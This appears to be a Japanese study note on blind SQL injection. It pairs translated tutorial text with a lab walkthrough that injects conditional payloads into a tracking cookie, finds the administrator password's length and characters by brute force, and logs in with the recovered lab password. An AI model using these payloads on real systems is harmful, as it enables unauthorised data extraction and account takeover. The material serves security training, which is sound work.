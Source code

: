 # blind-SQLi
blind SQLiに関するまとめ

アプリケーションの多くはHTTPレスポンスやDBエラー情報をわざわざレスポンスとして送り返さない。その情報に依存するUNION攻撃などは基本的に通用しない。
その場合に使われる手法がブラインドSQLインジェクションである。上の理由から、使用されているSQLiの多くはブラインドSQLiである。

データそのものがレスポンスとして帰ってこなくても、レスポンスで真偽が変えるだけでブラインド脆弱性として利用できる

〇条件付き応答をトリガーしてブラインドSQLインジェクションを悪用
トラッキングCookieを使用して使用状況に関する分析情報を収集するアプリケーションを考えてみましょう。アプリケーションへのリクエストには、次のようなCookieヘッダーが含まれます。

Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
クッキーを含むリクエストTrackingIdが処理されるとき、アプリケーションは SQL クエリを使用して、これが既知のユーザーであるかどうかを判断します。
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
このクエリはSQLインジェクションに対して脆弱ですが、クエリの結果はユーザーに返されません。ただし、クエリがデータを返すかどうかによって、アプリケーションの動作は異なります。認識されたクエリを送信するとTrackingId、クエリはデータを返し、レスポンスに「Welcome back」メッセージが表示されます。
この動作は、ブラインドSQLインジェクションの脆弱性を悪用するのに十分です。挿入された条件に応じて異なるレスポンスをトリガーすることで、情報を取得できます。


〇条件付きレスポンスのトリガーによるブラインドSQLインジェクションの悪用 - 続き
このエクスプロイトの仕組みを理解するために、次のTrackingIdCookie 値を含む 2 つのリクエストが順番に送信されるものとします。

…xyz' AND '1'='1
…xyz' AND '1'='2
最初の値では、挿入されたAND '1'='1条件が真であるため、クエリは結果を返します。その結果、「Welcome back」メッセージが表示されます。
2番目の値では、挿入された条件が偽であるため、クエリは結果を返しません。「Welcome back」メッセージは表示されません。
これにより、単一の挿入された条件に対する答えを決定し、一度に 1 つずつデータを抽出できるようになります。

〇条件付きレスポンスのトリガーによるブラインドSQLインジェクションの悪用 - 続き
例えば、Users列 と をUsername持つテーブル がありPassword、ユーザー がいるとしますAdministrator。このユーザーのパスワードは、パスワードを1文字ずつテストする一連の入力を送信することで特定できます。

これを行うには、次の入力から始めます。

xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
これにより、「Welcome back」メッセージが返され、挿入された条件が true であり、パスワードの最初の文字が より大きいことが示されますm。

次に、次の入力を送信します。

xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
これは、「Welcome back」メッセージを返しません。これは、挿入された条件が false であり、パスワードの最初の文字が より大きくないことを示しますt。

最終的に、次の入力を送信すると、「Welcome back」メッセージが返され、パスワードの最初の文字が であることが確認されますs。

xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
このプロセスを継続することで、ユーザーの完全なパスワードを体系的に決定することができますAdministrator。

注記
このSUBSTRING関数はSUBSTR一部のデータベースで呼び出されます。詳細については、SQLインジェクションに関するチートシートをご覧ください。











LAB11 : Blind SQL injection with conditional responses

Vulnerable parameter  - tracking cookie

End Goals:
1) administratorのパスワードを列挙
2) administratorとしてログイン

cookie editorを使って

分析:
検索で分類をクリックするとwelcome backという文字が表示される事を利用して

1) バックエンドに飛ぶクエリを推測する
SELECT tracking-id FROM traing-table WHERE tracking-id = '4iGVOSM2pFD5yIy4';

-> 入力したtracking-idが存在すればクエリが返り、Welcome　backという文字列が表示される
-> 入力したtracking-idが存在しない -> welcome backが表示されない 

2) クエリに自分の文字を追加する
SELECT tracking-id FROM traing-table WHERE tracking-id = ' 4iGVOSM2pFD5yIy4'AND 1 = 1--';
(--で残りのクエリをコメントアウト)
->TRUE なので追加した文がクエリとして実行されているためSQL脆弱性である

SELECT tracking-id FROM traing-table WHERE tracking-id = ' 4iGVOSM2pFD5yIy4'AND 1 = 0--';
FALSE　なので正常にクエリが使えている

3) userテーブルが存在するか確認する
SELECT tracking-id FROM traing-table 
    WHERE tracking-id = '4iGVOSM2pFD5yIy4'AND (SELECT 'x' FROM users LIMIT 1) = 'x'--';
サブクエリはusersテーブルに1レコードでもあれはXという文字列を返す
つまりusersテーブルにレコードが存在すればX＝Xとなりtrueとなる
-> usersテーブルが存在するか確かめている

4) administratorがusersテーブルに存在するか
SELECT tracking-id FROM traing-table 
    WHERE tracking-id = '4iGVOSM2pFD5yIy4'AND (SELECT username FROM users WHERE username='administrator')
    = 'administrator'--'
->welcome backが出たので　administratorユーザーは存在している

5)administratorユーザー（管理者ユーザー）のパスワードの長さを調べる
SELECT tracking-id FROM traing-table 
    WHERE tracking-id = '4iGVOSM2pFD5yIy4'AND (SELECT username FROM users WHERE username='administrator' and LENGTH(password)>1)='administrator'--'

instruderにリクエストを送り、1をペイロード化して1-50をpayloadのnumberで攻撃　19まで同じだったlengthが20で急に変わった->>19までtrue ->パスワード文字数は20であると判明

    ★administratorのパスワード文字数は 20文字

6)administratorユーザー（管理者ユーザー）のパスワードを列挙して調査する
一文字目a? -> falseならb?と一つ一つ20文字分続ける

パスワードの1文字目がaかどうか知らべる
SELECT tracking-id FROM traing-table 
    WHERE tracking-id = '4iGVOSM2pFD5yIy4'AND (SELECT substring(password, 1, 1) FROM users WHERE username='administrator')='a'--'

InstuderのPayloadでBlute forcer でa-z0-9を調査
->一文字目はmだと判明
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
m p r g 1 g i x m h  m  t  s  m  s  x  7  c  l  s
mprg1gixmhmtsmsx7cls

7)administratorとしてログイン！
ユーザー名　administrator
パスワード　mprg1gixmhmtsmsx7cls
ログイン成功！



tracking-id = XrDnioOBDXJi285K' AND '1'='1と入力すると
SELECT tracking-id FROM traing-table WHERE tracking-id = 'XrDnioOBDXJi285K' AND '1'='1';となる
-> true -> welcome back
'1' = '2'にして
-> welcome backが出ないなら自分の文字を注入できている


Ctrl + U -> URLエンコード

